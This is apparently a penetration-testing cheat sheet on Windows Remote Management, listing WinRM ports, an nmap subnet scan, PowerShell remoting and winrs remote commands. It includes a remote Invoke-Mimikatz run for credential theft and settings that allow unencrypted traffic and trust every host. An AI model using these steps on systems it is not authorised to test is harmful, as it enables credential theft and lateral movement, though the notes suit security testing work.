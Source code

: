 ```yaml
---
title: Windows Remote Management
---
```


# Windows Remote Management

- 默认端口 HTTP 5985, HTTPS 5986
- Windows Remote Shell (WinRS)
  - Windows 2008+
- 参考
  - https://pentestlab.blog/tag/winrm/

```bash
apk add nmap-scripts nmap-nselibs

nmap -p 5985,5986 -sV 192.168.0.0/24
```

```powershell
Invoke-Command -ComputerName TARGET -ScriptBlock { dir c:\ }
Import-Module ./Invoke-Mimikatz.ps1
Invoke-Mimikatz -ComputerName TARGET

Enable-PSRemoting -Force

winrm quickconfig
winrm set winrm/config/Client @{AllowUnencrypted = "true"}
Set-Item WSMan:localhost\client\trustedhosts -value *
```

winrm enumerate winrm/config/Listener

winrm quickconfig -transport:http

```cmd
winrm e winrm/config/listener

# 远程执行
winrs -r:http://WIN-2NE38K15TGH/wsman "cmd"
winrs -r:http://WIN-2NE38K15TGH/wsman "net localgroup administrators"
```
